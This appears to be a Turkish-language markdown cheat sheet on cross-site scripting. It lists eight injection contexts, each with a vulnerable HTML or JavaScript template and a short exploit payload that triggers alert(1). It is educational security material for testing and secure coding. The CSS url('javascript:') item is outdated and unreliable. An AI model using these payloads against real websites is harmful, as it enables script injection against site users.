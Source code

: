 <h1>CONTEXTS</h1>
<br>

<h2>🔹 1. HTML Element Context (Tag Context)</h2>
<h4>User input direkt HTML elementin içine yerleştirilir.</h4><br>

📌 Örnek:  
`<div>PAYLOAD</div>`  
<br>
🎯 Exploit:  
```html
</div><script>alert(1)</script>
```
<br>



<h2>🔹 2. HTML Attribute Context</h2>
<h4>Kullanıcı girdisi HTML elementinin bir attribute değeri içinde kullanılır (örneğin value, title, alt).<br>
Eğer input escape edilmezse, input içinden quote işaretleri çıkılarak attribute sonlandırılabilir ve yeni<br>
attribute veya event handler eklenerek XSS tetiklenebilir.</h4><br>

📌 Örnek:  
`<input type="text" value="PAYLOAD">`  
<br>
🎯 Exploit:  
```html
" autofocus onfocus=alert(1) x="
```
<br>



<h2>🔹 3. HTML Event Handler Context</h2>
<h4>Input bir HTML attribute’u olarak event handler içinde kullanılır (onclick, onerror, onmouseover gibi).<br>
Bu attribute’lar zaten JavaScript çalıştırmaya yönelik olduğu için, input içine uygun payload yerleştirerek<br>
doğrudan kod çalıştırılır.</h4><br>

📌 Örnek:  
`<button onclick="PAYLOAD">Click me</button>`  
<br>
🎯 Exploit:  
```html
" onclick=alert(1) x="
```
<br>



<h2>🔹 4. JavaScript Context (Script Block Injection)</h2>
<h4>Input, bir script bloğuna gömülür.</h4><br>

📌 Örnek:  
```html
<script>
    var name = "PAYLOAD";
</script>
```
<br><br>
🎯 Exploit:  
```js
";alert(1);//
```
<br>



<h2>🔹 5. JavaScript Inline Event Context</h2>
<h4>HTML içinde ama JS çalıştırılır.</h4><br>

📌 Örnek:  
`<button onclick="doSomething('PAYLOAD')">`  
<br>
🎯 Exploit:  
```js
');alert(1);//
```
<br>



<h2>🔹 6. DOM-Based Context (innerHTML, location.hash vs.)</h2>
<h4>JavaScript, kullanıcı girdisini doğrudan DOM'a yansıtır (innerHTML, document.write, location.hash gibi).<br>
Sunucu tarafı etkisizdir, tamamen client-side XSS’tir. Input escape edilmezse HTML/JS kodu doğrudan çalıştırılır.</h4><br>

📌 Örnek:  
`document.body.innerHTML = location.hash;`  
<br>
🎯 Exploit:  
```php
#<img src=x onerror=alert(1)>
```
<br>



<h2>🔹 7. URL / HREF / SRC Context</h2>
<h4>Veri href, src, action gibi URI attribute’larına yazılır.</h4><br>

📌 Örnek:  
`<a href="PAYLOAD">Click</a>`  
<br>
🎯 Exploit:  
```html
javascript:alert(1)
```
<br>



<h2>🔹 8. CSS Context</h2>
<h4>Kullanıcı girdisi doğrudan CSS kodunun içine gömülürse, kötü amaçlı CSS ve JavaScript çalıştırmak mümkün olabilir.<br>
Özellikle url() fonksiyonları ile javascript: protokolü kullanılarak XSS açığı oluşturulabilir.</h4><br>

📌 Örnek:  
```html
<style>
  body { background: PAYLOAD; }
</style>
```
<br>

🎯 Exploit:  
```css
url("javascript:alert(1)")
```

